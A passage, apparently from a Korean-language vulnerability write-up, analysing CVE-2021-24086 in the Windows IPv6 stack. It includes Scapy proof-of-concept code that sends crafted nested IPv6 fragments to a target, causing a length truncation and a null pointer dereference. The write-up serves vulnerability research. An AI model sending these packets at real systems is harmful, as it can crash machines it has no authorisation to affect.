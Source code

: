 다음은 재조립을 유도하기 위해서 이후 재조립에 사용될 패킷을 전송합니다.
```python
    sendp(frags, iface= args.iface)

    reassembled_pkt_2 = Ether() \
        / IPv6(dst = args.target) \
        / IPv6ExtHdrFragment(id = second_pkt_id, m = 0, offset = 1, nh = 17) \
        / 'doar-e ftw'

    sendp(reassembled_pkt_2, iface = args.iface)
```

이를 통해 길이가 `0xFFFF`가 넘는 재조립 패킷을 만들 수 있습니다.

다음과 같이 `0xFFE8 + 0x28` 형태의 `Nested fragment` 패킷을 전송하여 길이 연산결과가 `0x10010`되게 만듭니다.
<p align="center"><img src="/assets/img/CVE-2021-24086/big_unfrag.png"></p>

이때 잘림 현상에 의해서 `NetioRetreatNetBuffer`로 전달되는 메모리 할당 길이는 `0x10`이 되고
<p align="center"><img src="/assets/img/CVE-2021-24086/call_NetioRetreatNetBuffer.png"></p>

`NdisGetDataBuffer`로 요구하는 데이터의 크기는 `0x10010`이됩니다. 따라서 `NdisGetDataBuffer`는 `NULL`을 반환하게되고 `NULL` 포인터 역참조가 발생합니다.
<p align="center"><img src="/assets/img/CVE-2021-24086/call_NdisGetDataBuffer.png"></p>
